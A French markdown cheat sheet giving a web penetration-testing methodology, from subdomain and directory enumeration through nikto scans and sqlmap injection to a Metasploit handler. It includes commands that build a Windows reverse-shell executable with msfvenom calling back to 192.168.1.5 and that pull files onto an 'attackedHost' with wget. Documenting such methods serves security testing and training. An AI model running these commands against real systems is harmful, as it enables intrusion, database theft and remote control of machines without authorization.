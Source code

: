 ```yaml
---
title:  "Pentest Web"
tag: "Méthodologie"
---
```


Ces notes sont destinées à répertorier une méthodologie pour du pentest web.

# Collecte d'informations

## Identification de sous domaines
```console
Misoko@home[/home]$ sublist3r -d google.com
Misoko@home[/home]$ gobuster dns -d google.com -w ~/wordlists/subdomains.txt -i
```
On peut utiliser également https://crt.sh/ avec "%.domain.com"

## Recherche / Enumération de dossiers et fichiers
Une fois le périmètre défini, une utilisation d'outils de bruteforce de répertoire peut permettre d'identifier les fichiers et dossiers du domaine de périmètre. Une fois les résultats obtenus, l'identification de la technologie utilisée peut être faite.

### [Gobuster](https://github.com/OJ/gobuster)
```console
Misoko@home[/home]$ gobuster dir -u http://@IP --wordlist /usr/share/dirb/wordlists/common.txt
```

On peut accéder ici à de nombreuses listes avec [SecLists](https://github.com/danielmiessler/SecLists).

## Identifier les Technologies utilisées

### [wappalyzer](https://www.wappalyzer.com/)
Cet outil permet de se faire une première idée des technologies liés à un nom de domaine, directement depuis l'interface web.

### [similartech](https://www.similartech.com/)
Un autre outil dans le même état d'esprit.

## whatweb
```console
Misoko@home[/home]$ whatweb domain.com -v -a 3
```


# Scanners Automatique
### [nikto](https://github.com/sullo/nikto)
Nikto est un scanner de serveur web (configuration, version de serveurs obsolète, options HTTP du serveur, identification du serveur web, vulnérabilités, etc). Un [guide](https://www.freecodecamp.org/news/an-introduction-to-web-server-scanning-with-nikto/) pratique pour débuter.

```console
Misoko@home[/home]$ nikto -h scanme.nmap.org -o scan.txt
Misoko@home[/home]$ nikto -h domains.txt
Misoko@home[/home]$ nikto -h https://nmap.org -ssl
Misoko@home[/home]$ nikto -h @IP
```


nikto, whatweb, wapiti, w3af, zaproxy, nuclei
## cmsScan

# HTTP Headers 
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/

# Recherche d'exploits

```console
Misoko@home[/home]$ searchsploit apache 2.4.41 
```

Recherche google
```console
frameworkName exploit/cve/metasploit
framework cve /metasploit
```

# Injection SQL
### SQLmap
Après avoir trouvé un lien où il y a une injection du type : http://vulnWebsite.com/article.php?id=2
```console
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 --dbs
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 -D databaseName
```

# Utilisation metasploit

```console
$ msfconsole
$ use exploit/multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.5
msf6 exploit(multi/handler) > set lport 1234
msf6 exploit(multi/handler) > exploit
```

## Creation de shell
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > Desktop/stageless_reverse_tcp_x86_4444_2.exe
```

# Echange de fichier :
```console
Misoko@home[/home]$ python3 -m http.server
```
et de l'autre côté :
```console
attackedHost@home[/home]$ wget http://@IP/file
```

<!--
À checker

https://marduc812.com/2019/08/18/web-application-testing-methodology/

https://marduc812.com/checklist/web.html
  -->